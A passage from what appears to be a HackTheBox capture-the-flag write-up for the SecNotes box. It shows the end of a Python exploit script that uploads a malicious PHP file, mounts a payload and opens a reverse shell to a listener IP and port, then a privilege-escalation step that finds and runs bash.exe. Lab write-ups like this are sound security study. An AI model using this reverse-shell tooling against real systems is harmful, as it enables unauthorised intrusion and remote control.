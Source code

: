 ```py
    parser.add_argument('-pa', '--password', help='Password of the user', required=True)
    parser.add_argument('-ip', '--ip', help='IP to receive the reverse shell', required=True)
    parser.add_argument('-p', '--port', help='Port to receive the reverse shell', required=True)
    args = parser.parse_args()

    rhost = args.target
    username = args.username
    password = args.password
    lhost = args.ip
    lport = args.port

    '''Here we call the functions'''
    # Set up the handler
    thr = Thread(target=handler,args=(int(lport),rhost))
    thr.start()
    # Set up the web server
    webServer()
    # Upload the malicious php
    uploadMalPhp(rhost,username,password)
    # Mount our payload
    mountPayload(lhost,lport)
    # Get the reverse shell
    getRev(rhost,lhost)

if __name__ == '__main__':
    main()
```

# Tyler --> root

Now we can get root access to this box.

## First Method - bash.exe

We see a `bash.lnk` on the Tyler's Desktop.

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-08-HackTheBox-SecNotes/2021-09-08-HackTheBox-SecNotes%2006:42:56.png)

It's very interesting since it's a Windows Box. So, we search for bash.exe, which is this .lnk executing.

```cmd
Get-ChildItem -Filter "bash.exe" -Recurse
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-08-HackTheBox-SecNotes/2021-09-08-HackTheBox-SecNotes%2006:46:04.png)

We execute it

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-08-HackTheBox-SecNotes/2021-09-08-HackTheBox-SecNotes%2007:10:36.png)
